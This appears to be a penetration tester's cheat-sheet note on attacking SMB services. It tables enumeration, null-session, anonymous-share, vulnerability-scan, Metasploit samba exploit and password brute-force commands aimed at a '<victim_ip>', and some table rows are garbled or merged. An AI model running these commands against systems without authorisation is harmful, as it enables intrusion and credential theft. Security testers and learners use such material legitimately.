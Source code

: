 # 🔥 SMB

Tags: #🔥
Related to:
See also:
Previous: [[TTP]]

## Description

## Usage Examples

|Categories|OS|Tool|Intent|Command|Comments|
|:----|:----|:----|:----|:----|:----|
|139/445 - smb|Linux|nmblookup |Enumerate hostname|`nmblookup -A <victim_ip>`| |
|139/445 - smb|Linux|enum4linux|Enumerate hostname|`enum4linux -n <victim_ip>`|Versions Samba 2.2.x are red flag|
|139/445 - smb|Linux / Windows|nmap|Quick Enumeration|`nmap --script=smb-enum* --script-args=unsafe=1 -T5 <victim_ip>`| |
|139/445 - smb|Linux|smbver script|get version|`smbver.sh <victim_ip>`|Script used to get smb version if nmap fails|
|139/445 - smb|Linux|Metasploit|get version|`Msfconsole;use scanner/smb/smb_version`|metasploit modele to get smb version|
|139/445 - smb|Linux|ngrep|get version|`ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' smbclient -L \\\\<victim_ip>`|Manual method to get version if all else fails|
|139/445 - smb|linux / windows|wireshark|get version|`#1:run Wireshark #2:smbmap -H <victim_ip> #3:follow the tcp stream of the smb negotiation`|noted by  1kwstassak in reddit.com|
|139/445 - smb|linux|smbmap|get shares|`smbmap -H  <victim_ip> -R <sharename>`| Recursively display files in specific share139/445 – smb|linux|smbclient|get shares|echo exit | smbclient -L \\\\$ip| |
|139/445 - smb|linux|smbclient|get shares|`smbclient \\\\<victim_ip>\\<share>` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 – smb|linux|smbclient|get shares|`smbclient -L //<victim_ip> -N`|-N Force the tool to not ask for password|
|139/445 - smb|Linux / Windows|nmap|get shares|`nmap --script smb-enum-shares -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 - smb|linux|smbclient|get shares|`smbclient -L \\\\<victim_ip>\\` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 - smb|linux|smbmap|Check Null Sessions|`smbmap -H <victim_ip>`|vulnerable version :  Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default  Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default  Most Samba (Unix) servers|
|139/445 – smb|linux|rpcclient|Check Null Sessions|`rpcclient -U "" -N $ip`| |
|139/445 – smb|linux|smbclient|Check Null Sessions|`smbclient //<victim_ip>/IPC$ -N`|Success #:/smb>|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -s <victim_ip>`|enumerate the shares of a machine|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -U <victim_ip>`|-U enumerate usersA133:AMJ133|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -P <victim_ip>`|-P check the password policy|
|139/445 – smb|linux|enum4linux|Exploit null Sessions|`enum4linux -a <victim_ip>`|enum4linux -a (use all enum switches useres/shares/password policies)|
|139/445 – smb|linux|samrdump.py|Exploit null Sessions|`using /usr/share/doc/python3-impacket/examples/samrdump.py #./samrdump.py <victim_ip>`| |
|139/445 - smb|linux|smbclient|connect to Username shares|`smbclient //$ip/share -U username`|this step required u have a cred|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient \\\\<victim_ip>\\<share>`|more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB) Example : smbclient \\\\<victim_ip>\\IPC$|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share>`| |
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share\ name> smbclient //<victim_ip>/<"share name">`|If share has a space inbetween its name (eg. "My Shares")|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " -N <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 – smb|linux / Windows|nmap|check vuln|`nmap --script smb-vuln* -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 – smb|Linux / Windows|Metasploit|check common security concerns|`#msf> resource smb_checks.rc  Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc`|# This resource scripts will check common security concerns on SMB for Windows.  # Specifically, this script will check for these things: #  #   * MS08-067.  #   * MS17-010.  #   * SMB version 1. #|
|139/445 – smb|Linux / Windows|Metasploit|extra validation|`#msf> resource smb_validate.rc Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc`|after running the previous check139/445 – smb|Linux / Windows|Metasploit|multi exploits|msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $ip; run| |
|139/445 – smb|linux|nmap/medusa|Brute Force login|`after enumerating users u can brute force login  #medusa -h <victim_ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt  #nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <victim_ip>  -vvvv #nmap –script smb-brute <victim_ip>`| |

### nmap script enumeration

`nmap -p 445 --script smb-protocols <IP Address>`

`nmap -p 445 --script smb-security-mode <IP Address>`

`nmap -p 445 --script smb-enum-sessions <IP Address>`

`nmap -p 445 --script smb-enum-shares <IP Address>`

`nmap -p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 <IP Address>`

`nmap -p 445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 <IP Address>`

`nmap -p 445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 <IP Address>`

`nmap -p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 <IP Address>`

`nmap -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 <IP Address>`

# Resources
